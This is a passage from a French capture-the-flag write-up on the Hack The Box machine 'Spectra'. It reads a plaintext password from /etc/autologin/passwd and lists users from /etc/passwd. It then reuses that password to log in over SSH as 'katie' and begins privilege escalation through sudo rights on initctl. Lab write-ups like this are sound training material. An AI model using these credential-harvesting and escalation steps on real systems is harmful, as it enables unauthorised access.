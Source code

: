 

> cat /etc/autologin/passwd  

```
SummerHereWeCome!!
```

Un utilisateur doit sûrement utiliser ce mot de passe pour se connecter.

Regardons la liste d'utilisateurs

> cat /etc/passwd
>

```
nginx@spectra /home $ cat /etc/passwd
[...]
tcpdump:!:215:215:tcpdump --with-user:/dev/null:/bin/false
nginx:x:20155:20156::/home/nginx:/bin/bash
katie:x:20156:20157::/home/katie:/bin/bash
```

Testons la connexion à l'utilisateur `katie`.

> ssh katie@10.10.10.229

```
katie@spectra ~ $ whoami 
katie
```

Nous voilà maintenant avec l'utilisateur `katie`.

Nous avons aussi accès au flag `user.txt`.

> cat user.txt

```
katie@spectra ~ $ cat user.txt 
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```



<p align= "left">
 <h6 align= "left"><U>2.Root</U></h6>
</p>
En faisant un `sudo -l` on peut voir que cet utilisateur possède les droits root sur le binaire `initctl`.

> sudo -l

```
katie@spectra ~ $ sudo -l
User katie may run the following commands on spectra:
    (ALL) SETENV: NOPASSWD: /sbin/initctl
```

Listons les services qui sont sur cette machine.

> sudo initctl list
